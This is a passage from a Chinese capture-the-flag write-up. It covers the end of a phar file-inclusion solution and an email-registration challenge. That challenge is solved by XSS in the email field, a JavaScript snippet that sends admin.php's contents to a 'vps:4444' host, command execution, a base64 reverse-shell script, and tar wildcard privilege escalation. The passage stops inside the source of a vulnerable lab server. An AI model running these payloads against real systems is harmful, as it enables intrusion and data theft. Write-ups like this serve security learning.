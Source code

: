 ```php
$phar->stopBuffering();
```

然后上传，md5一下文件名+IP，phar协议文件包含读flag就ok了

***

### 有趣的邮箱注册

这道题的提权部分还帮了我大忙，我把它的通配符提权拿出来写了个http server用在周五的讲课上了

进入题目知道是`ssrf`，需要绕过邮箱的验证：

`"[xss payload]"@null.com`

然后读源码：

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps:4444/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","admin.php",true);
xmlhttp.send();
```

发现是个RCE：

`href="admin/a0a.php?cmd=whoami"`

然后反弹一个shell到VPS：

```bash
echo [payload base64] | base64 -d > /tmp/shell.sh
?cmd=/bin/bash /tmp/shell.sh
```

接着会发现根目录下的flag文件权限为`400`，所有者为flag，接着能够在web目录发现一个目录，里面有一个文件上传，且有tar的备份，利用tar指令的`--checkpoint-action`参数结合通配符完成提权

***

Linux通配符 + tar指令提权复现靶机环境地址：`https://github.com/EddieIvan01/Tar-Vuln-server`

Server代码：

```go
package main

import (
	"io"
	"io/ioutil"
	"log"
	"os"
	"os/exec"

	"github.com/gin-gonic/gin"
)

func index_get(ctx *gin.Context) {
	cmd := exec.Command("ls")
	result, _ := cmd.Output()
	ctx.HTML(200, "index.html", string(result))
}

func index_post(ctx *gin.Context) {
```